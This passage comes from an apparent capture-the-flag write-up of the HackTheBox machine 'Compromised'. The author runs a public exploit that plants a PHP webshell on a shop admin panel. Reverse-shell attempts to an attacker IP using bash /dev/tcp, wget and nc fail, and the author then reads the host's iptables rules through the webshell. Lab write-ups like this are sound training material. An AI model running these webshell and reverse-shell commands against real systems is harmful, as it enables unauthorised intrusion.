 I used c because the exploit POC uses c in it’s webshell. When I run this, it works:

```
root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php?c=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### No Reverse Shell

I wasn’t able to get a full shell from this. It seems that perhaps the firewall is not allowing traffic out? All of these either hung or returned instantly:

```
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=bash -c 'bash -i >& /dev/tcp/10.10.14.4/443 0>&1'"
^C
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=wget http://10.10.14.4:443"
^C
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=nc 10.10.14.4 443"
```

I can pull the iptables rules:

```bash
root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
/etc/iptables/rules.v4
root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=cat /etc/iptables/rules.v4'
# Generated by iptables-save v1.6.1 on Jan 01 2021 02:27:01
*filter
:INPUT DROP [6:1032]
:FORWARD DROP [0:0]
:OUTPUT DROP [5:394]
-A INPUT -i lo -j ACCEPT
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -m tcp -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -m tcp -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
COMMIT
# Completed on Jan 01 2021 02:27:01
```

Inbound only established, 22, and 80 are allowed. Outbound only established and source port 22 and 80 (coming from SSH and HTTP). Anything I’d want to send outbound will be blocked. Still, this webshell is enough to run mysql commands through. Alteratively, I could write a forward shell (using Ippsec’s technique like I’ve shown several times, including Stratosphere - Ippsec will show this in his Compromised video), or just root from here (see Beyond Root).

